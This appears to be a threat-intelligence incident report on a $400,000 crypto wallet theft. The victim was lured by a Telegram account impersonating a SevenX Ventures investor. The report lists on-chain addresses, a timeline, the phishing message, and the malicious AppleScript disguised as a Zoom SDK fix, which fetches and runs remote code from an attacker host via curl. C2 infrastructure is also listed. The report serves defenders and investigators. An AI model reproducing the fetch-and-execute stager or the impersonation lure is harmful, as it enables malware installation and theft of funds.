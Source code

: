 # Theft from Individual C4

Date:: 2024-06-28

Time:: 06:19

Amount Stolen: $400,000

Tags:: 🔑

---

## Details

Contacted by Telegram account impersonating VC.

jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



## Onchain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1 - Theft

- 0x47aac2e0d93baf0e5b0cd66032041f5f02af7945 - Theft/Consolidation (Moves July 18, 2023)
  
- 0x7527690cdc36e3180197d9b65d6bb86101b27718 - eXch Depo
- 0x8d04169c64a4f083154cfe1e7c4f84073489f584 - eXch Depo
- 0x7ea5c7e866bbee6535b33c30ba4b5eab3506cfdf - eXch Depo
- 0xc14857054571ca848d30b3be832434a31cba267c - eXch Depo
- 0x25796e53bd64c4a922d9b004d9806be211d01ed1 - eXch Depo
- 0x1a4885b76a88fc8c7ad667944129fccacefd2ed6 - eXch Depo
- 0x7d577a5ca50ecf947900eab06943da4d003e19a1 - eXch Depo
- 0x9258d93045a2974874178001adc1f2b9b6a6e975 - eXch Depo


## Timeline

- 2024-Jun-28 06:19 - Theft
- 2024-Jul-18 00:38 - Consolidation
- 2024-Jul-23 01:16 - Laundry 
- 2024-Aug-26 00:50 - Laundry 


## Connections

- C7 Theft


## Further Reading

- https://twitter.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon


## Malicious Script

############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc



## C2s

- support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_SQ_7xv_1.jpg)

![](../images/2024-07-01_SQ_7xv_2.jpg)

![](../images/2024-07-01_SQ_7xv_3.jpg)



